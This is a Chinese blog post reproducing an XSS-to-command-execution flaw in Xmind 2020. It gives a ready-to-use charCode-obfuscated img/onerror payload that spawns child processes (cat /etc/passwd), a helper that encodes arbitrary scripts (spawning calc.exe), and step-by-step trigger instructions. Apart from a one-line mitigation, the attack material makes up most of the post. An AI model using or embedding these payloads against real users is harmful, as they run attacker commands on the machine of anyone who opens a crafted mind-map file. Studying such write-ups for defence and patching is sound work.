 # xmind2020存在XSS漏洞可导致命令执行


### 漏洞描述

Xmind2020 存在XSS漏洞，攻击者可利用该漏洞进行命令执行。由于软件允许用户以文件形式或自定义标题标题的形式存储JS代码，攻击者可以发送带有恶意JS代码的文件。用户打开文件后，从而执行攻击者预先设定好的命令。





### 漏洞复现

测试环境：ubuntu18.04、xmind2020



**1.打开xmind后，在思维导图模式下输入以下Payload：**

```javascript
<img src=x onerror=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,10,99,111,110,115,116,32,123,32,115,112,97,119,110,32,125,32,61,32,114,101,113,117,105,114,101,40,34,99,104,105,108,100,95,112,114,111,99,101,115,115,34,41,59,10,99,111,110,115,116,32,99,97,116,32,61,32,115,112,97,119,110,40,34,99,97,116,34,44,32,91,34,47,101,116,99,47,112,97,115,115,119,100,34,93,41,59,10,99,97,116,46,115,116,100,111,117,116,46,111,110,40,34,100,97,116,97,34,44,32,100,97,116,97,32,61,62,32,123,10,32,32,32,32,97,108,101,114,116,40,96,115,116,100,111,117,116,58,32,36,123,100,97,116,97,125,96,41,59,10,125,41,59,60,47,115,99,114,105,112,116,62))>
```

解码后数据即为：

```javascript
//Decode Payload
<script>
const { spawn } = require("child_process");
const cat = spawn("cat", ["/etc/passwd"]);
cat.stdout.on("data", data => {
    alert(`stdout: ${data}`);
});</script>
```

![插入payload](http://image.geoer.cn/xmind_payload1.png)



补充知识：

```javascript
// 1.str转unicode序列
var c = "<script>\nvar Process = process.binding('process_wrap').Process;\nvar proc = new Process();\nproc.onexit = function(a,b) {};\nvar env = process.env;\nvar env_ = [];\nfor (var key in env) env_.push(key+'='+env[key]);\nproc.spawn({file:'c:\\windows\\system32\\calc.exe',cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});\n</script>"

var codeArr = [];
for(var i=0;i<c.length;i++){
    codeArr.push(c.charCodeAt(i));
}
console.log(codeArr);



// 2.unicode序列还原为str
var n = String.fromCharCode(60, 115, 99, 114, 105, 112, 116, 62, 10, 118, 97, 114, 32, 80, 114, 111, 99, 101, 115, 115, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 98, 105, 110, 100, 105, 110, 103, 40, 39, 112, 114, 111, 99, 101, 115, 115, 95, 119, 114, 97, 112, 39, 41, 46, 80, 114, 111, 99, 101, 115, 115, 59, 10, 118, 97, 114, 32, 112, 114, 111, 99, 32, 61, 32, 110, 101, 119, 32, 80, 114, 111, 99, 101, 115, 115, 40, 41, 59, 10, 112, 114, 111, 99, 46, 111, 110, 101, 120, 105, 116, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 97, 44, 98, 41, 32, 123, 125, 59, 10, 118, 97, 114, 32, 101, 110, 118, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 101, 110, 118, 59, 10, 118, 97, 114, 32, 101, 110, 118, 95, 32, 61, 32, 91, 93, 59, 10, 102, 111, 114, 32, 40, 118, 97, 114, 32, 107, 101, 121, 32, 105, 110, 32, 101, 110, 118, 41, 32, 101, 110, 118, 95, 46, 112, 117, 115, 104, 40, 107, 101, 121, 43, 39, 61, 39, 43, 101, 110, 118, 91, 107, 101, 121, 93, 41, 59, 10, 112, 114, 111, 99, 46, 115, 112, 97, 119, 110, 40, 123, 102, 105, 108, 101, 58, 39, 99, 58, 92, 119, 105, 110, 100, 111, 119, 115, 92, 115, 121, 115, 116, 101, 109, 51, 50, 92, 99, 97, 108, 99, 46, 101, 120, 101, 39, 44, 99, 119, 100, 58, 110, 117, 108, 108, 44, 119, 105, 110, 100, 111, 119, 115, 86, 101, 114, 98, 97, 116, 105, 109, 65, 114, 103, 117, 109, 101, 110, 116, 115, 58, 102, 97, 108, 115, 101, 44, 100, 101, 116, 97, 99, 104, 101, 100, 58, 102, 97, 108, 115, 101, 44, 101, 110, 118, 80, 97, 105, 114, 115, 58, 101, 110, 118, 95, 44, 115, 116, 100, 105, 111, 58, 91, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 93, 125, 41, 59, 10, 60, 47, 115, 99, 114, 105, 112, 116, 62);

console.log(n);
```



**2.点击大纲。在大纲模式下，选中payload，按下Ctrl+C快捷键触发该Payload，执行`calc`命令。**

![执行成功](http://image.geoer.cn/xmind_attack_ok.png)



### 修复建议

该漏洞在大纲模式下触发，Xmind 2020的使用者，谨慎打开Xmind的大纲模式。





### 参考

[Xmind 2020 - XSS to RCE - Multiple webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/49827)

[漏洞情报 | Xmind 2020 XSS漏洞导致命令执行 (qq.com)](https://mp.weixin.qq.com/s/JCj4yPN5ORGt1WGc7gpuDQ)

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/xmind2020%E5%AD%98%E5%9C%A8xss%E6%BC%8F%E6%B4%9E%E5%8F%AF%E5%AF%BC%E8%87%B4%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/  

